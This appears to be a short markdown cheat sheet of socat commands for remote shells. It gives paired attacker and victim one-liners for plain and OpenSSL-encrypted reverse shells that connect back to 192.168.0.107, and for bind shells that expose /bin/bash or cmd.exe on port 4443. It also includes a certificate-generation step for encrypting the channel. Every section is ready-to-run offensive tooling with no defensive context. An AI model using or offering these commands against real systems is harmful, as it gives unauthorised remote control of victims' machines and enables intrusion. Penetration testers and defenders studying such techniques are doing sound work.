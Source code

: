 # Reverse shell
## Socat<br>
**Attacker:** `socat -d -d TCP4-LISTEN:4443 STDOUT`<br>
**Victim:** `socat TCP4:192.168.0.107:4443 EXEC:/bin/bash`<br>
**Victim windows:** `socat TCP4:192.168.0.107:4443 EXEC:'cmd.exe',pipes`<br>

## Encrypted reverse shell
Create certificate: 
```bash
openssl req -newkey rsa:2048 -nodes -keyout bind.key -x509 -days 1000 -subj '/CN=www.doston.net/O=My Company Name LTD./C=US' -out bind.crt
```
**Attacker:** `socat -d -d OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork STDOUT`<br>
**Victim:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL:192.168.0.107:4443,verify=0 EXEC:'cmd.exe',pipes`<br>

# Bind shell
## Socat
**Victim:** `socat -d -d TCP4-LISTEN:4443 EXEC:/bin/bash`<br>
**Victim Windows:**  `socat -d -d TCP4-LISTEN:4443 EXEC:'cmd.exe',pipes`<br>
**Attacker:** `socat - TCP4:VICTIMIP:4443`

## Encrypted reverse shell
From victim machine we have to cert .pem file we can generate certificate and transfer to victim.<br>
**Victim:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:/bin/bash`<br>
**Victim Windows:** `socat OPENSSL-LISTEN:4443,cert=bind.pem,verify=0,fork EXEC:'cmd.exe',pipes`<br>
**Attacker:**  `socat - OPENSSL:VICTIMIP:4443,verify=0`<br>


